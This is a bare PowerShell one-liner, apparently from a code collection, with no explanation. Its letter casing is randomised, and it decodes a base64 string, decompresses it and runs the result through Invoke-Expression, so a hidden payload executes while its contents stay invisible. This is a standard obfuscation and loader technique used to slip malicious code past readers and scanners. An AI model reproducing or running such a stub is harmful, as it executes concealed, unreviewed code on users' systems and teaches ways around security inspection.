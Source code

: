 # code-powershell
iNvOke-ExPRESsion (nEw-oBjEct  sYSteM.io.compressIOn.deFlAtesTrEaM([SySTeM.io.mEmoRYStrEaM] [sYSTeM.ConveRt]::frombAsE64STrIng( '88wry89O1Q1PTQpKLSxNLS5RUMooKSkottLXT88syShN0kvOz9UPSCwqyi8JTk3Wz83MzcxOLKnST8rJT9LPTSwuSS3SD8/MMzaCS+mlVqQqKej6l5a4ZeakKig5W8WEpOYWxKDIAwA=' ), [SYSteM.io.COmPReSSiOn.compRESSIONMoDE]::dEComPReSS )|foreaCh { nEw-oBjEct SYStem.Io.STREamREaDER( $_,[SysTeM.teXt.eNCOdinG]::AsCII) }).readTOEND()
